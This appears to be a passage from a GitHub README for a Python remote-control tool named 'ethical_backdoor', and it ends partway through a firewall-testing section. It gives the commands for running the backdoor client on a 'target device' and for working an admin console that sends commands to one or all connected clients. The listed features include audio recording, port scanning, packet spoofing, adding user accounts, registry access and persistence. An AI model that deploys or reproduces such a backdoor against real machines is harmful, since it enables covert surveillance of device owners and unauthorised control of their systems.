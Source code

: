 Run the Client (Target Device)

python ethical_backdoor.py client <server_ip>

Connects with SSL, using dynamic port hopping.

Run the Admin Interface (Control Machine)

python admin_control.py





Enter server IP and port (default 4444).



Commands:





list_clients: List connected clients.



send <client_id> <command>: Send a command (e.g., send 192.168.1.100:12345 sysinfo).



batch <command>: Send to all clients (e.g., batch sysinfo).



exit: Quit.

Example Commands

send <client_id> sysinfo
send <client_id> portscan 192.168.1.1 1-100
send <client_id> spoof 192.168.1.1 10
send <client_id> add_user testuser pass123
send <client_id> shutdown

See documentation.html for all commands.

Modules





system_ops.py: System info, file operations, audio recording, process management.



network_ops.py: Port scanning, packet spoofing, network info.



admin_controls.py: Shutdown, reboot, user management, registry access, persistence.



communication.py: SSL communication, client-server logic.

Firewall Testing

Test firewall hardening with:
